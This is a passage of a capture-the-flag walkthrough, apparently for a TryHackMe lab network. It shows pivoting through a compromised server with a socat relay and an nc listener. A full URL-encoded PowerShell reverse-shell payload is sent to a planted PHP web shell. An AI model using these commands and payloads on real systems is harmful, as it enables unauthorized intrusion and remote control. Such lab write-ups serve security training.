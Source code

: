 ```
  rich rules: 
  ```
  
Next ill grab socat as suggested.
  
```
  ──(root💀kali)-[/home/kali/Downloads]
└─# wget https://github.com/andrew-d/static-binaries/raw/master/binaries/linux/x86_64/socat    
```

And start a webserver on kali to transfer socat.

```
┌──(root💀kali)-[/home/kali/Downloads]
└─# python3 -m http.server 80                             
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

```
──(root💀kali)-[/home/kali/Downloads]
└─# ssh -i id_rsa root@10.200.188.200                                                       
[root@prod-serv ~]# curl 10.50.185.100/socat -o /tmp/socat-username && chmod +x /tmp/socat-username
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100  366k  100  366k    0     0   408k      0 --:--:-- --:--:-- --:--:--  408k
```

Move to the tmp folder and execute socat

```
[root@prod-serv tmp]# ./socat-username tcp-l:17777 tcp:10.50.185.100:1337
```

Setup nc listener

```
┌──(root💀kali)-[/home/kali/Downloads]
└─# nc -nlvp 1337                                                                                                                    1 ⨯
listening on [any] 1337 ...
```

Now we can use powershell reverse shells.

```
└─# curl -X POST http://10.200.188.200/web/exploit-username.php -d "a=powershell.exe%20-c%20%22%24client%20%3D%20New-Object%20System.Net.Sockets.TCPClient%28%2710.200.188.200%27%2C17777%29%3B%24stream%20%3D%20%24client.GetStream%28%29%3B%5Bbyte%5B%5D%5D%24bytes%20%3D%200..65535%7C%25%7B0%7D%3Bwhile%28%28%24i%20%3D%20%24stream.Read%28%24bytes%2C%200%2C%20%24bytes.Length%29%29%20-ne%200%29%7B%3B%24data%20%3D%20%28New-Object%20-TypeName%20System.Text.ASCIIEncoding%29.GetString%28%24bytes%2C0%2C%20%24i%29%3B%24sendback%20%3D%20%28iex%20%24data%202%3E%261%20%7C%20Out-String%20%29%3B%24sendback2%20%3D%20%24sendback%20%2B%20%27PS%20%27%20%2B%20%28pwd%29.Path%20%2B%20%27%3E%20%27%3B%24sendbyte%20%3D%20%28%5Btext.encoding%5D%3A%3AASCII%29.GetBytes%28%24sendback2%29%3B%24stream.Write%28%24sendbyte%2C0%2C%24sendbyte.Length%29%3B%24stream.Flush%28%29%7D%3B%24client.Close%28%29%22"
<!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
<html><head>
<title>302 Found</title>
</head><body>
<h1>Found</h1>
<p>The document has moved <a href="https://thomaswreath.thmweb/exploit-username.php">here</a>.</p>
</body></html>
```
